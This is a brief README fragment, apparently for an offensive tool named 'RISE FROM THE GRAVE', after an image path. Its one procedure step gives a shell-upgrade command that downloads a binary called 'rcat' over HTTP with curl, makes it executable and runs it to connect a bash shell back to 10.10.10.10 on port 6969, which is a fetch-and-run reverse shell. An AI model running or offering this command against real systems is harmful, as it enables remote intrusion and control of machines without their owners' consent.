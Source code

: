 # RISE FROM THE GRAVE 

Procedure
1. RFTG wil loutput a command to run to upgrade shell ``curl -O http://0.0.0.0:7878/rcat && chmod +x ./rcat && ./rcat connect -s bash 10.10.10.10 6969``